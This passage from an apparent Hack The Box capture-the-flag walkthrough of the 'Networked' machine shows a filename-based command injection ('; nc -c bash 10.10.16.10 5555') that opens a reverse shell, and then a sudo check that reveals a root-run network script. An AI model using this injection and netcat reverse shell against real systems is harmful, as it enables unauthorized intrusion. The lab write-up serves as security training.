 Let's navigate to /var/www/html/uploads and write our file there...

```bash
touch "; nc -c bash 10.10.16.10 5555"
```

![](/img/HTB/Networked/img (16).png)

Create a listener on port 5555 and wait for a connection...

![](/img/HTB/Networked/img (17).png)

BOOOOOOOOM ! We successfully upgraded to `guly` user and have the user.txt flag


### II. Upgrade to root

Let's see if there are commands guly could execute as a root.

```bash 
sudo -l
```

guly can execute `/usr/local/sbin/changename.sh` as a root without any password required


![](/img/HTB/Networked/img (18).png)

Reading the content of `changename.sh`...

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

The script reads the `/etc/sysconfig/network-scripts/ifcfg-guly` file and append to it `NAME, PROXY_METHOD, BROWSER_ONLY, BOOTPROTO` by taking them as an input from the user...
